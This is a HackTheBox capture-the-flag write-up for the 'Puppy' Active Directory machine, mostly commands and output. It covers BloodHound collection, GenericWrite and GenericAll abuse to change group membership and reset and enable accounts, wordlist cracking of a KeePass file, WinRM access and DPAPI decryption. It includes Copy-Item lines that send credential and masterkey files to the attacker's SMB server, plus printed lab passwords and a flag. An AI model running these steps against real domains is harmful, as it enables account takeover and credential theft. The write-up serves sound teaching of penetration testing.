





# Puppy

> Platform: HackTheBox
>
> Created by: [tr3nb0lone](https://app.hackthebox.com/users/1600618)
>
> Difficulty: Medium
>
> Status: Season 8 Machine


## 🔗 Overview

_[Puppy](https://app.hackthebox.com/machines/Puppy) starts in an Active Directory domain <code>(PUPPY.HTB)</code>. The box rewards careful AD enumeration and DACL abuse: after authenticating with a low-privileged user, we use LDAP/BloodHound to discover a <code>GenericWrite</code> path into the <code>DEVELOPERS</code> group, leverage a KeePass backup to harvest developer credentials, and abuse AD permissions to escalate to a Remote Management user. From that foothold we access a web backup containing an LDAP bind account, recover DPAPI secrets and saved credentials, and finally extract NTDS secrets via backup/DRSUAPI to obtain the Administrator NT hash and fully compromise the domain._

_In short: authenticate → collect LDAP/BloodHound data → exploit <code>GenericWrite</code> to add our user to <code>DEVELOPERS</code> → read DEV share → crack KeePass (<code>recovery.kdbx</code>) → use developer credentials and DACL/GPO actions to enable/change accounts and gain WinRM as a developer → download site backup → recover web LDAP bind creds → use DPAPI masterkeys/credential extraction → run <code>secretsdump</code> (DRSUAPI/backup) → obtain Administrator NT hash → authenticate as Administrator and finish the box._


## 🔍 Enumeration

First of all, we will begin with the Nmap. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nmap -sVSC 10.10.11.70 -T4 -Pn -n -vvv -oA puppyscan
Nmap scan report for 10.10.11.70
Host is up, received user-set (0.047s latency).
Scanned at 2025-10-09 07:47:45 +08 for 187s
Not shown: 985 filtered tcp ports (no-response)
Bug in iscsi-info: no string output.
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-10-08 22:51:55Z)
111/tcp  open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
2049/tcp open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
3260/tcp open  iscsi?        syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 62785/tcp): CLEAN (Timeout)
|   Check 2 (port 45756/tcp): CLEAN (Timeout)
|   Check 3 (port 26380/udp): CLEAN (Timeout)
|   Check 4 (port 26527/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-10-08T22:53:54
|_  start_date: N/A
|_clock-skew: -55m48s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the Nmap results, looks like there are several active directory services running on the server.

Let's try to enumerate the shares in the SMB server using the given credentials:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --shares
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

Try to explore the IPC$ Shares:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ smbclient //10.10.11.70/IPC$ -U levi.james%'KingofAkron2025!'             
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> exit
```

Looks like there is nothing here. We can try to collect data first to be imported to Bloodhound for mapping out our attack paths:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc ldap 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --bloodhound -c all
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
LDAP        10.10.11.70     389    DC               Resolved collection methods: group, psremote, objectprops, acl, dcom, localadmin, trusts, session, container, rdp                     
LDAP        10.10.11.70     389    DC               [-] Could not find a domain controller. Consider specifying a domain and/or DNS server.
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc ldap 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --dns-server 10.10.11.70 --bloodhound -c all
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
LDAP        10.10.11.70     389    DC               Resolved collection methods: objectprops, psremote, dcom, group, session, container, acl, trusts, rdp, localadmin                     
LDAP        10.10.11.70     389    DC               Done in 00M 09S
LDAP        10.10.11.70     389    DC               Compressing output into /home/kali/.nxc/logs/DC_10.10.11.70_2025-10-09_075503_bloodhound.zip
```

In Bloodhound:



## ⚔️ Exploitation

From the Bloodhound output, we can see that the user <code>levi.james</code> is in group <code>HR@PUPPY.HTB</code> which having the <code>GenericWrite</code> permission towards the group <code>DEVELOPERS@PUPPY.HTB</code>. We can try to add the user <code>levi.james</code> into the group <code>DEVELOPERS@PUPPY.HTB</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ net rpc group members "DEVELOPERS" -U puppy.htb/levi.james%'KingofAkron2025!' -S 10.10.11.70
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ net rpc group addmem "DEVELOPERS" levi.james -U puppy.htb/levi.james%'KingofAkron2025!' -S 10.10.11.70
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ net rpc group members "DEVELOPERS" -U puppy.htb/levi.james%'KingofAkron2025!' -S 10.10.11.70          
PUPPY\levi.james
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams
```

After success adding the user <code>levi.james</code> into group <code>DEVELOPERS@PUPPY.HTB</code>, we notice that there is another SMB Shares that we can access as the Developers group:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --shares           
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin                                                                                          
SMB         10.10.11.70     445    DC               C$                              Default share                                                                                         
SMB         10.10.11.70     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS                                                                              
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC                                                                                            
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share                                                                                    
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

Try to access the SMB DEV shares:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ smbclient //10.10.11.70/DEV -U levi.james%'KingofAkron2025!'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Thu Oct  9 02:51:47 2025
  ..                                  D        0  Sun Mar  9 00:52:57 2025
  @project.scf                        A       89  Thu Oct  9 02:51:47 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 15:09:12 2025
  Projects                            D        0  Thu Oct  9 02:52:01 2025
  recovery.kdbx                       A     2677  Wed Mar 12 10:25:46 2025

                5080575 blocks of size 4096. 1589311 blocks available
smb: \> get recovery.kdbx
```

After some research online, I found out that the file is actually a KeePass Database file. I also found an online tools that can be use which call the [brutalkeepass](https://github.com/toneillcodes/brutalkeepass/). Try to crack it:
```
┌──(venv)─(kali㉿kali)-[~/brutalkeepass]
└─$ python3 bfkeepass.py -d /mnt/CTF/CyberSec/Learning/HackTheBox/Machines/Puppy/recovery.kdbx -w /usr/share/wordlists/rockyou.txt
[*] Running bfkeepass
[*] Starting bruteforce process...
[!] Success! Database password: liverpool
[*] Stopping bruteforce process.
[*] Done.
```

So, what do we do now? We can try to open up the KeePass Database file by using the KeePaassXC GUI tools:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ keepassxc
```

The command will launch the KeePassXC GUI which we can import the <code>recovery.kdbx</code> file and input the password that we had cracked before:



Actually, the brutalkeepass also can show us the output by adding the <code>-o</code> option which will reveals more information:
```
┌──(venv)─(kali㉿kali)-[~/brutalkeepass]
└─$ python3 bfkeepass.py -d /mnt/CTF/CyberSec/Learning/HackTheBox/Machines/Puppy/recovery.kdbx -w /usr/share/wordlists/rockyou.txt -o
[*] Running bfkeepass
[*] Starting bruteforce process...
[!] Success! Database password: liverpool
[>] Dumping entries...
--------------------
[>] Title: JAMIE WILLIAMSON
[>] Username: None
[>] Password: JamieLove2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ADAM SILVER
[>] Username: None
[>] Password: HJKL2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ANTONY C. EDWARDS
[>] Username: None
[>] Password: Antman2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: STEVE TUCKER
[>] Username: None
[>] Password: Steve2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: SAMUEL BLAKE
[>] Username: None
[>] Password: ILY2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Entry dump complete.
[*] Stopping bruteforce process.
[*] Done.
```

Based on the Bloodhound information, we know that the first three users is from the Developers group, which are the <code>jamie.williams</code>, <code>adam.silver</code> and <code>ant.edwards</code>. 




However, the user <code>adam.silver</code> is the most interesting here as he is one of the members of the group <code>REMOTE MANAGEMENT USERS@PUPPY.HTB</code>. But, if we use the password that we had retrieved, it will not works as the password is actually incorrect:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc winrm 10.10.11.70 -u adam.silver -p 'HJKL2025!'
WINRM       10.10.11.70     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.10.11.70     5985   DC               [-] PUPPY.HTB\adam.silver:HJKL2025!
```

So, back with the Bloodhound, we know that the user <code>ant.edwards</code> is actually a member of the <code>SENIOR DEVS@PUPPY.HTB</code> group, which having the <code>GenericAll</code> permission towards the user <code>adam.silvers</code>:



So, now we can do several methods to get the user <code>adam.silvers</code> one of it is to change the password for the user. First, lets check if the retrieved password of user <code>ant.edwards</code> is correct or not:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc smb 10.10.11.70 -u ant.edwards -p 'Antman2025!'
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
```

Nice! Now we can try to force [change the password](https://www.netexec.wiki/smb-protocol/change-user-password) for user <code>adam.silvers</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc smb 10.10.11.70 -u ant.edwards -p 'Antman2025!' -M change-password -o USER=adam.silver NEWPASS=Silvers2003!
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
CHANGE-P... 10.10.11.70     445    DC               [+] Successfully changed password for adam.silver
```

However, we are not able to winrm to the machine yet as user <code>adam.silver</code> as the account is disabled:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc winrm 10.10.11.70 -u adam.silver -p 'Silvers2003!'               
WINRM       10.10.11.70     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.10.11.70     5985   DC               [-] PUPPY.HTB\adam.silver:Silvers2003!

┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc smb 10.10.11.70 -u adam.silver -p 'Silvers2003!' -M uac   
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:Silvers2003! STATUS_ACCOUNT_DISABLED
```



We need to make the account is enabled first, then we can change the password for the user:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ bloodyAD --host puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl

┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc smb 10.10.11.70 -u ant.edwards -p 'Antman2025!' -M change-password -o USER=adam.silver NEWPASS=Silvers2003!
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
CHANGE-P... 10.10.11.70     445    DC               [+] Successfully changed password for adam.silver
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc winrm 10.10.11.70 -u adam.silver -p 'Silvers2003!'
WINRM       10.10.11.70     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.10.11.70     5985   DC               [+] PUPPY.HTB\adam.silver:Silvers2003! (Pwn3d!)
```

Now we can evil-winrm to the server:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ evil-winrm -i 10.10.11.70 -u adam.silver -p 'Silvers2003!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                          
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                     
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents>
```

<details>
<summary><b>🏳️user.txt</b></summary>
<b><code>3d042272a6fc79158ba73830e9b92aa5</code></b>
</details><br>


## 💀 Privilege Escalation

After getting foothold as user <code>adam.silver</code>, there is a backup file which we can try to download to view the content of it:
```
*Evil-WinRM* PS C:\Backups> dir


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip
 
                                        
Info: Downloading C:\Backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip
                                        
Info: Download successful!


┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ unzip site-backup-2024-12-30.zip 
Archive:  site-backup-2024-12-30.zip
   creating: puppy/
  inflating: puppy/nms-auth-config.xml.bak
...

┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ cd puppy;ls                                          
assets  images  index.html  nms-auth-config.xml.bak

┌──(kali㉿kali)-[/mnt/…/HackTheBox/Machines/Puppy/puppy]
└─$ cat nms-auth-config.xml.bak 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

Then, as user <code>steph.cooper</code>, I also ran winPEAS to ease up the process:
```
������������ Checking for DPAPI Master Keys
�  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi                                                                                  
    MasterKey: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:40:36 AM
    Modified: 3/8/2025 7:40:36 AM
   =================================================================================================                                                                                      


������������ Checking for DPAPI Credential Files
�  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi                                                                                  
    CredFile: C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
    Description: Local Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 8:14:09 AM
    Modified: 3/8/2025 8:14:09 AM
    Size: 11068
   =================================================================================================                                                                                      

    CredFile: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
    Description: Enterprise Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:54:29 AM
    Modified: 3/8/2025 7:54:29 AM
    Size: 414
   =================================================================================================
```

Looks like we can try to retrieve the DPAPI secrets here. Let's start our SMBServer first to retrieve the files:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ mkdir smbshare;python3 /opt/impacket/examples/smbserver.py -smb2support download smbshare 
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] NetrShareEnum Level: 1
```

Now, send the files to our SMB Server:
```
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials> Copy-Item -Path "C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" -Destination "\\10.10.14.137\DOWNLOAD"
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials> Copy-Item -Path "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" -Destination "\\10.10.14.137\DOWNLOAD"
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials> Copy-Item -Path "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" -Destination "\\10.10.14.137\DOWNLOAD"
```

Next, we can try to dump the DPAPI secrets here:
```
┌──(kali㉿kali)-[/mnt/…/HackTheBox/Machines/Puppy/smbshare]
└─$ python3 /opt/impacket/examples/dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Password:
Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

┌──(kali㉿kali)-[/mnt/…/HackTheBox/Machines/Puppy/smbshare]
└─$ python3 /opt/impacket/examples/dpapi.py credential -file DFBE70A7E5CC19A398EBF1B96859CE5D -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 16:14:09+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000002 (CRED_PERSIST_LOCAL_MACHINE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : WindowsLive:target=virtualapp/didlogical
Description : PersistedCredential
Unknown     : 
Username    : 02vpdyzbbgyaqelf
Unknown     : 
...

